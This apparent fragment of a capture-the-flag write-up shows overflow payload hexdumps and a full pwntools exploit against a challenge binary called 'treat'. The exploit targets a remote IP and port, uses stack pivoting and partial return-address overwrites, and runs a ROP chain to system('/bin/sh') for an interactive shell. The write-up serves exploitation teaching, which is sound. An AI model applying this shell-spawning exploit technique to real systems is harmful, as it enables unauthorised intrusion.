 kinda Visualized,
```
"A" * 0x28 + p64(0xdeadbeef)
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000010  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000020  41 41 41 41 41 41 41 41  00 00 00 00 de ad be ef  |AAAAAAAA........|
```
```
"A" * 0x20 + p64(0x13371337)
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000010  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000020  00 00 00 00 13 37 13 37  00 00 00 00 de ad be ef  |................|
```
... and so on, the full exploit,

```py
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "debug" # debug, info, warn


exe = ELF("treat")
p = remote('130.211.214.112' ,18010)
# p = process('./treat')

### stack pivot, prepare rbp at bss+0x7B0

p.sendlineafter(': ',  'AAAA')

junk = '1'*72
junk += p32(0x4012c8)[:3] # main+4
p.sendlineafter(': ', junk)

junk = '1'*64
junk += p32(0x405810)[:3] # rbp
p.sendlineafter(': ', junk)

### ROP to system("/bin/sh")

junk = '/bin/sh;'
junk += 'A' * 0x7a0
junk += p32(exe.plt['system'])[:3] # system("/bin/sh;AAAA...")
p.sendlineafter(': ', junk)

junk = '1'*0x50
junk += p32(0x405080)[:3] # "/bin/sh;" from name
p.sendlineafter(': ', junk)

junk = '1'*0x48
junk += p32(0x4016a3)[:3] # pop rdi; ret
p.sendlineafter(': ', junk)

p.interactive()
```
